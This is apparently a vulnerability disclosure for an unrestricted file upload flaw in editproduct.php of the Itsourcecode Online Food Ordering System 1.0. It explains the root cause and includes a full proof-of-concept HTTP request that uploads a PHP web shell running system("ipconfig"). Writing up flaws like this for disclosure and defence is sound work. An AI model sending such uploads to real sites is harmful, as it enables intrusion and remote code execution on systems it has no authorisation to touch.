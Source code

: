 # Itsourcecode Online Food Ordering System Project in PHP with Source Code 1.0 editproduct.php Unrestricted Upload
# NAME OF AFFECTED PRODUCT(S)
+ Online Food Ordering System Project in PHP with Source Code
## Vendor Homepage
+ https://itsourcecode.com/free-projects/php-project/online-food-ordering-system-source-code/
# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ N3xu5Cr4ck37
## Vulnerable File
+ editproduct.php
## VERSION(S)
+ V1.0
## Software Link
+ https://itsourcecode.com/wp-content/uploads/2019/04/ordersimple.zip
# PROBLEM TYPE
## Vulnerability Type
+ File upload
## Root Cause
+ In line 8 of the editproduct.php file, the input obtained through $-FILES is directly used to determine the storage location of the file without verification or cleaning. The specific code snippet is as follows:
+ ![1](https://github.com/user-attachments/assets/f42f1cd9-0739-4436-b847-c64288b4aa44)
## Impact
+ Attackers can exploit this vulnerability for unrestricted uploads, which may lead to file overwrite, file injection, directory traversal attacks, and denial of service attacks. Remote attacks may also result in RCE
# DESCRIPTION
+ N3xu5Cr4ck37 discovered that the file upload operation was triggered on line 80 of the 'editproduct.php' file and the uploaded file was received using the '$_FILES' variable. Due to the lack of appropriate input validation and cleaning, remote attackers can pass malicious payloads through this file upload feature, resulting in unrestricted file uploads, which may further lead to remote code execution (RCE).
# Vulnerability details and POC
## Payload
## 
```
POST /editproduct.php?product=15 HTTP/1.1
Host: localhost:8111
Content-Length: 2421
Cache-Control: max-age=0
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="98"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost:8111
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzFkG7MluIbSZRB3c
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8111/product.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryzFkG7MluIbSZRB3c
Content-Disposition: form-data; name="pname"

Egg Baked In Tomatoes
------WebKitFormBoundaryzFkG7MluIbSZRB3c
Content-Disposition: form-data; name="category"

4
------WebKitFormBoundaryzFkG7MluIbSZRB3c
Content-Disposition: form-data; name="price"

310
------WebKitFormBoundaryzFkG7MluIbSZRB3c
Content-Disposition: form-data; name="photo"; filename="rce.php"
Content-Type: image/jpeg


Node: Sorry, due to some encoding reasons, I am unable to use Markdown to store image data with attack payloads here. I will take a screenshot to show


<?php system("ipconfig"); ?>
------WebKitFormBoundaryzFkG7MluIbSZRB3c--
```
+ ![2](https://github.com/user-attachments/assets/51c5e074-14b2-4297-bb24-08cb76a182ee)

## Upload file name change
+ The renaming rule consists of adding an underline and a timestamp to the original name
+ ![4](https://github.com/user-attachments/assets/d8825682-c40d-4cb9-b5a0-ab5b0432ac1d)

## I successfully executed the PHP script on the terminal
+ ![3](https://github.com/user-attachments/assets/281e0f75-3003-4fe5-845b-e8570680d974)
